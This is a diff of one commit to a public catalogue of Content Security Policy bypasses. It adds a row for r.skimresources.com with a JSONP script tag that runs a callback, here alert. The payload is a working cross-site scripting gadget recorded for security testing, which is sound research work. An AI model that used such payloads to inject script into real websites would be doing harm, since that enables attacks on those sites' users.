

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added r.skimresources.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 67: r.skimresources.com | <script src="https://r.skimresources.com/api/?callback=alert"></script> | renniepak
```
